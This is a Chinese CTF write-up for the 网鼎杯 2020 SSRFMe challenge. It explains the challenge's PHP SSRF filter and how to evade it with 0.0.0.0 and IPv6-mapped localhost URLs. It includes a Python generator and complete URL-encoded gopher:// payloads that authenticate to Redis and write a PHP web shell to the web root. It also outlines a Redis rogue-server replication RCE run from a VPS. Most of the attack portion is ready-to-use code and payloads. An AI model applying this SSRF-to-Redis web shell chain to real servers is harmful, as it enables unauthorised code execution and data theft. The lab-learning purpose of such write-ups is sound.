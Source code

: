 # \[网鼎杯 2020 玄武组]SSRFMe

## \[网鼎杯 2020 玄武组]SSRFMe

## 考点



## wp

打开靶机给了源码

第一个函数`check_inner_ip`，传入的URL必须以`http https gopher dict`开头，然后用parse\_url解析获取hostname

`gethostbyname()`函数用于获取hostname对应的IPv4地址，失败则返回hostname

`ip2long()`函数用于把IPv4地址转换为长整数

传入的URL对应的IP格式必须是`127.*   10.*  172.16.*  192.168.*`

否则返回False

```php
function check_inner_ip($url)
{
    $match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);
    if (!$match_result)
    {
        die('url fomat error');
    }
    try
    {
        $url_parse=parse_url($url);
    }
    catch(Exception $e)
    {
        die('url fomat error');
        return false;
    }
    $hostname=$url_parse['host'];
    $ip=gethostbyname($hostname);
    $int_ip=ip2long($ip);
    return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;
}
```

第二个函数`safe_request_url`，传入的url如果符合`check_inner_ip`函数的要求，就直接输出url

如果传入的不是私有地址，就使用PHP curl获取页面。如果私有地址中间有302跳转，就把跳转的目标url再用`safe_request_url`函数访问，这样就避免了用302跳转绕过本地限制

```php
function safe_request_url($url)
{

    if (check_inner_ip($url))
    {
        echo $url.' is inner ip';
    }
    else
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        $output = curl_exec($ch);
        $result_info = curl_getinfo($ch);
        if ($result_info['redirect_url'])
        {
            safe_request_url($result_info['redirect_url']);
        }
        curl_close($ch);
        var_dump($output);
    }

}
```

最后一段，提示先访问本地的`hint.php`

```php
if(isset($_GET['url'])){
    $url = $_GET['url'];
    if(!empty($url)){
        safe_request_url($url);
    }
} 
// Please visit hint.php locally. 
```

这些操作相当于限制本地访问，同时要求访问本地`hint.php`

常用策略就是八进制 十六进制 全0 等方法

```
http://0.0.0.0/hint.php    只能Linux下用
http://[0:0:0:0:0:ffff:127.0.0.1]/hint.php
```

得到新代码，向POST传入的file参数写入`"<?php echo 'redispass is root';exit();".$_POST['file']`

```php
<?php
if($_SERVER['REMOTE_ADDR']==="127.0.0.1"){
  highlight_file(__FILE__);
}
if(isset($_POST['file'])){
  file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);
}
```

这里给了提示redis密码为`root`

用下面脚本生成payload

<pre class="language-python"><code class="lang-python"><strong>from urllib.parse import quote
</strong>
protocol="gopher://"
ip="0.0.0.0"
port="6379"
shell="&#x3C;?php system('cat /flag');?>"
filename="b.php"
path="/var/www/html"
passwd="root"
cmd=["auth root",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
payload=''
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd
def generate_payload():
    global payload
    for x in cmd:
        payload += quote(redis_format(x))
    return payload

print(generate_payload())
</code></pre>

payload

{% code overflow="wrap" %}
```
gopher://0.0.0.0:6379/_%2A2%0D%0A%244%0D%0AAUTH%0D%0A%244%0D%0Aroot%0D%0A%2A2%0D%0A%244%0D%0Aauth%0D%0A%244%0D%0Aroot%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2436%0D%0A%3C%3Fphp%20var_dump%28readfile%28%27/flag%27%29%29%3B%3F%3E%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%245%0D%0Ab.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
```
{% endcode %}

再URL编码一下

{% code overflow="wrap" %}
```
gopher://0.0.0.0:6379/_%252a2%250d%250a%25244%250d%250aauth%250d%250a%25244%250d%250aroot%250d%250a%252a2%250d%250a%25244%250d%250aauth%250d%250a%25244%250d%250aroot%250d%250a%252a3%250d%250a%25243%250d%250aset%250d%250a%25241%250d%250a1%250d%250a%252436%250d%250a%253c%253fphp%2520var_dump%2528readfile%2528%2527%2fflag%2527%2529%2529%253b%253f%253e%250d%250a%252a4%250d%250a%25246%250d%250aconfig%250d%250a%25243%250d%250aset%250d%250a%25243%250d%250adir%250d%250a%252413%250d%250a%2fvar%2fwww%2fhtml%250d%250a%252a4%250d%250a%25246%250d%250aconfig%250d%250a%25243%250d%250aset%250d%250a%252410%250d%250adbfilename%250d%250a%25245%250d%250ab.php%250d%250a%252a1%250d%250a%25244%250d%250asave%250d%250a
```
{% endcode %}

在靶机直接打?url=payload，然后访问b.php即可





预期解法是redis主从复制rce BUU环境有问题复现不了

下载[redis-ssrf](https://github.com/xmsec/redis-ssrf)，修改[ssrf-redis.py](https://github.com/xmsec/redis-ssrf/blob/master/ssrf-redis.py)

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

下载[redis-rogue-server](https://github.com/Dliv3/redis-rogue-server) &#x20;

把exp.so ssrf-redis.py rogue-server.py上传到VPS

运行ssrf-redis.py得到payload

再运行rogue-server.py

把payload再URL编码一下，在靶机用编码后的payload打过去





## 小结

1. [\[网鼎杯 2020 玄武组\]SSRFMe](https://liotree.github.io/2020/07/10/%E7%BD%91%E9%BC%8E%E6%9D%AF-2020-%E7%8E%84%E6%AD%A6%E7%BB%84-SSRFMe/)1
2. [\[网鼎杯 2020 玄武组\]SSRFMe](https://www.cnblogs.com/karsa/p/14123995.htm)2

